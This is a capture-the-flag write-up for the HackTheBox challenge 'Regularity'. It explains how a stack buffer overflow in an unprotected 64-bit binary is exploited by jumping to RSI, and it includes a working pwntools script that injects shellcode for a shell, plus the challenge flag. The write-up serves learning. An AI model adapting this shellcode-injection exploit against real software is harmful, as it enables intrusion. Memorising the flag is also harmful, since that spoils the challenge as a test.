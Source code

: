 # Regularity
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d20d1e54-c9f0-4e60-8820-70dea1f1090c)


## Lessons Learned:
- Get shell using ret2reg concept --> jumping to rsi.

## DESCRIPTION:

<p align="justify">Nothing much changes from day to day. Famine, conflict, hatred - it's all part and parcel of the lives we live now. We've grown used to the animosity that we experience every day, and that's why it's so nice to have a useful program that asks how I'm doing. It's not the most talkative, though, but it's the highest level of tech most of us will ever see...</p>

## STEPS:
1. In this challenge, we're given a 64 bit binary, statically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9b195474-0e37-4725-bf60-798139df026b)


> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bf714acb-c3d3-48f2-a180-944cd07db6a3)


2. Interesting, no protections are applied to the binary.
3. Upon reviewing the decompiled code, we found an initialize global variable named message1. Since it's initialized, the variable shall stored at the .DATA section.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b297ed28-a23f-4f83-8ec9-755a2f5258a9)


> .DATA SECTION.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1d9b319f-d05c-474d-a018-4f45f0af3e2d)


4. It's unclear to determine the size of **nbytes** and **__buf**. So let's just send 1024 cyclic pattern and check whether GDB alarm SIGSEGV or not.

> RESULTING TO SEGFAULT (SIGSEGV).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c76bc159-2c0d-4e6b-8990-c3dc229ff19c)


> RIP Offset -> 256

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d60021ed-fedf-490f-bb58-beaa8c376586)


5. Great! There is a Buffer Overflow then. Since there is no direct input execution and no stack leak. Hence, the easiest way to drop a shell is by using register that used to store the input buffer.
6. Commonly **RAX** is used to store the input buffer.
7. BUT, reviewing the register context, seems RSI is used to store our buffer.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c20349b2-5e29-4349-a0c3-527b5becc6ed)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bffb1ec5-0149-4a75-a4d0-a607eb298d19)


8. Nice! Seems RSI should be our target now. Again, remembering PIE is not enabled hence we can grab the `jmp rsi;` gadget without worries about the piebase.

> USING ROPPER - CHECKING JMP RSI; GADGET.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ad3e4531-fb43-4600-8f0f-2f9ab5ef37c6)


10. Here's the crafted exploit script.

> SCRIPT

```py
from pwn import *

exe = './regularity'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'INFO'

sh = process(exe)
rop = ROP(elf)

jmp_rsi = 0x0000000000401041
success(f'JMP RSI; GADGET --> {hex(jmp_rsi)}')

p = flat([
    asm(shellcraft.sh()).ljust(256, asm('nop')),
    jmp_rsi
])
sh.sendline(p)
sh.interactive()
```

> REMOTE TEST

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/53c303a4-f1b3-44d4-808c-dc0661f78095)


11. We've pwned it!

## FLAG

```
HTB{jMp_rSi_jUmP_aLl_tH3_w4y!}
```
